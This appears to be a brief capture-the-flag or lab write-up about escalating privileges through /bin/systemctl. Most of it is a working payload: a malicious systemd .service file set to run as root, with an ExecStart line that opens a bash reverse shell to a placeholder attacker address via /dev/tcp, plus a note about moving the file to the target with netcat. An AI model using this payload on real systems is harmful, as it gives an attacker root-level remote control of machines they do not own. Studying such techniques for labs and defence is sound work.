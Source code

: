 I ran into some issues trying to exploit /bin/systemctl.
Finally figured I could create a malicious .service file on my attackbox and ship it to the remote machine.

Payload:
	[Unit]
	Description=roooooooooot
	
	[Service]
	Type=simple
	User=root
	ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'
	
	[Install]
	WantedBy=multi-user.target

I created mal.service with that payload and used netcat to transfer the payload to the target system.